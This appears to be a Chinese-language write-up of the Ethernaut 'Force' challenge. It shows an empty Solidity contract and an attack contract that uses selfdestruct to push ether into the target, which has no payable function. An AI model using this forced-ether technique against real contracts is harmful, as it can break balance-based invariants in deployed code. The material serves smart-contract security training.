


# Force

## 题目

目标：向合约发送一些钱

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

## 分析

这个合约里面什么都没有，没有fallback和receive函数接收以太，也没有任何一个payable的函数可以接收以太。因此我们只可以强制给他打钱。

我们有一个方法可以强制给一个合约打钱：`selfdestruct(addr)`。自毁函数在执行的时候会强制给目标地址addr转钱，转出金额为本合约中的所有余额。

那么我们就可以写一个合约，给合约转点钱，然后让这个合约自毁，自毁的钱转给题目地址

## 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
contract Hack {
    Force public force;

    constructor(Force _force) {
        force = Force(_force);
    }

    function attack() public payable {
        address payable addr = payable(address(force));
        selfdestruct(addr);
    }
}
```

## 做题

部署，攻击



通过


